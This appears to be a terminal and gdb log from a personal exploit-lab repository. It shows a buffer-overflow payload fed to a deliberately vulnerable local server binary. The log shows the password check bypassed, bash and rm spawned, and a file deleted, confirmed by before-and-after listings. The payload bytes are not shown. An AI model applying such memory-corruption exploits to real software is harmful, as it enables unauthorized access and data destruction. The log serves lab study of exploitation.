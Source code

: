 ```
total 40
...
drwxr-xr-x. 1 gemesa gemesa   108 Dec  6 19:32 target
-rw-r--r--. 1 gemesa gemesa     0 Dec  7 16:08 .tmpdata
drwxr-xr-x. 1 gemesa gemesa    26 Nov 29 10:18 .vscode
$ gdb build/bof-server-pie2
...
(gdb) r < lab/buffer-overflow/payload-rm
Starting program: /home/gemesa/git-repos/exploit-lab/build/bof-server-pie2 < lab/buffer-overflow/payload-rm

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.fedoraproject.org/>
Enable debuginfod for this session? (y or [n]) 
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
0x7fffffffdbd0
enter the password:
wrong password
authenticated
your files:
[Detaching after vfork from child process 193434]
arsenal  build	Cargo.lock  Cargo.toml	lab  LICENSE  Makefile	notes  README.md  target
process 193431 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: dnf debuginfo-install glibc-2.37-14.fc38.x86_64
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
process 193431 is executing new program: /usr/bin/rm
Missing separate debuginfos, use: dnf debuginfo-install bash-5.2.21-1.fc38.x86_64
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
[Inferior 1 (process 193431) exited normally]
Missing separate debuginfos, use: dnf debuginfo-install coreutils-9.1-12.fc38.x86_64
(gdb) exit
$ ls -la
total 40
...
drwxr-xr-x. 1 gemesa gemesa   108 Dec  6 19:32 target
drwxr-xr-x. 1 gemesa gemesa    26 Nov 29 10:18 .vscode
```

References:
- [https://github.com/muhammet-mucahit/Security-Exercises](https://github.com/muhammet-mucahit/Security-Exercises)
